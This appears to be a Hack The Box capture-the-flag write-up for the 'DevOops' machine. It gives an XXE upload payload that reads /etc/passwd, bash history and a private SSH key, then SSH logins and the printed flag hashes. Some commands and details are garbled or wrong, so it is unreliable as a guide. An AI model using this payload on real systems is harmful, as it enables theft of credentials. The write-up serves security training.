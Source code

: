 # DevOops

[![DevOops](https://www.hackthebox.eu/storage/avatars/c74d84352f781ad5c7a4c35c0c3aa0ac.png)](https://www.hackthebox.eu/home/machines/profile/140)

Some	commands	may	need	root	privileges.

## User

## Nmap

Run	nmap	to	get	a	start	point.

```
$	nmap	-T4	-A	-v	10.10.10.
```
You	should	get	something	like	this:

#### PORT					STATE	SERVICE	VERSION

```
22/tcp			open		ssh					OpenSSH	7.2p2	Ubuntu	4ubuntu2.4	(Ub
untu	Linux;	protocol	2.0)
|	ssh-hostkey:	
|			2048	42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95	(
RSA)
|			256	b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31	(E
CDSA)
|_		256	d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00	(E
```

#### D25519)

```
5000/tcp	open		http				Gunicorn	19.7.
|	http-methods:	
|_		Supported	Methods:	HEAD	OPTIONS	GET
|_http-server-header:	gunicorn/19.7.
|_http-title:	Site	doesn't	have	a	title	(text/html;	charse
t=utf-8).
```
### Dirb

As	we	can	see	port	22	(ssh)	and	port	5000	(http)	are	open.	Opening	it	up
with	a	web	browser	doesn’t	really	help	while	there	is	only	one	static
page.	So	we	 **dirb** it

```
$	dirb	http://10.10.10.
```
As	a	result	we	get	the	 **upload** page	where	we	can	upload	 **.xml** files.	The
page	has	a	tittle	that	says	 **“This	is	a	test	API!	The	final	API	will	not
have	this	functionality.”** ,	so	it	might	be	vulnerable.	We	can	also	see
that	we	have	been	given	the	structure	of	the	.xml	file	to	upload.	Looking
at	“OWASP	Top	10	Application	Security	Risks	-	2017”	it	is	worth	to	try
**“A4-XML	External	Entities	(XXE)”** vulnerability.
So	we	take	the	snippet	from	OWASP	page	and	we	tweak	it	a	little	so	it
suits	our	needs.	The	final	form	will	look	like	this:

```
<?xml	version="1.0"	encoding="ISO-8859-1"?>
<!DOCTYPE	foo	[	
```

```
<!ELEMENT	foo	ANY	>
<!ENTITY	xxe	SYSTEM	"file:///etc/passwd"	>]>
<Author>
<Subject>
<Content>
												&xxe;
</Content>
</Subject>
</Author>
```
Hit	upload.	As	we	can	see	we	got	 **passwd** and	there	is	a	user	 **roosa** and
a	user	 **git** .	Next	step,	change	the	xml	to	read	 **bash.history** on	roosa
user:

```
"file:///home/roosa/.bash_history"
```
From	bash	history,	we	found	that	the	user	forgot	to	remove	the	public
key	for	ssh.	So	we	change	the	.xml	file	once	again:

```
"file:///home/roosa/.ssh/id_rsa"
```
### SSH	-	Getting	user

Once	we	take	the	public	key,	we	paste	in	a	new	file	and	give	it	some
privileges	and	the	we	connect	via	ssh	as	roosa.


```
$	chmod	 300 	roosa
$	ssh	-i	roosa	roosa@10.10.10.
$	cat	user.txt
c5808e1643e801d40f09ed87cdecc67b
```
## Root

### SSH	-	Getting	root

To	get	root,	we	just	type:

```
$	history
```
At	some	point	we	can	see	that	the	user	show	as	the	path	for	another	rsa
key.	This	path	is
**/home/roosa/work/blogfeed/resources/integration/authcredentials.key**
We	the	do	the	same	thing	as	previously	so	we	can	connect	via	ssh,	as
root	this	time.

```
$	chmod	 300 	root
$	ssh	-i	root	roosa@10.10.10.
$	cat	root.txt
d4fe1e7f7187407eebdd3209cb1ac7b
```

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![DevOops](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
